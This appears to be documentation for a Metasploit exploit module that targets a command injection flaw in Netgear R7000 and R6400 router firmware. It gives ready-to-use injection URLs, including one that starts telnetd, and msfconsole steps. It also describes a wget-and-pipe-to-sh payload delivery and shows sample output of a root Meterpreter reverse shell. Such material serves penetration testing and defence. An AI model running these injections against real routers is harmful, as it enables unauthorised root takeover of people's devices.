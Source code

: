 The netgear_r7000_cgibin_exec module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. A fairly useful manual command injection is like so: `http://<RouterIP>/cgi-bin/;telnetd$IFS-p$IFS'45'` will open telnet on port 45.


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>`
  5. Do: `run`
  6. If the router is a R7000 or R6400, you should get a session

## Options

  **PAYLOAD**

  The valid payloads are `meterpreter` payloads _only_. The payload uses the `wget` flavor and pipes the downloaded binary to `sh`

## Scenarios

  Sample output of a successful session:

  ```
  msf exploit(netgear_r7000_cgibin_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Router is a NETGEAR router (R7000)
[+] Router may be vulnerable (NETGEAR R7000)
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://[redacted]:8080/
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54168) at 2017-03-10 15:56:21 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.4
OS           :  (Linux 2.6.36.4brcmarm+)
Architecture : armv7l
Meterpreter  : armle/linux
meterpreter >
  ```

  As you can see, the `uid` is 0, meaning you have root access.


